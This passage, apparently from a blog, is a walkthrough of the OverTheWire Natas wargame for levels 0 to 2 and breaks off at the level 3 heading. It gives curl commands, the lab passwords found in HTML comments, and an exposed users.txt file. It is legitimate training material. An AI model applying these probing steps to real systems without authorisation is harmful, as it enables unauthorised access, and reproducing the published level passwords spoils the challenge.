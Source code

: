 ```yaml
---
title: OverTheWire Natas Level 0-27
layout: post
---
```


* TOC
{:toc}

More information is available [here](http://overthewire.org/wargames/natas/).

# 1. Level 0

```
$ curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org/
```

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

# 2. Level 1

```
$ curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org/
```

```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

# 3. Level 2

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/
```

I find a label.

```
<img src="files/pixel.png">
```

There is a `users.txt` in the same directory and password for natas3 is in it.

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
```

```
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

# 4. Level 3
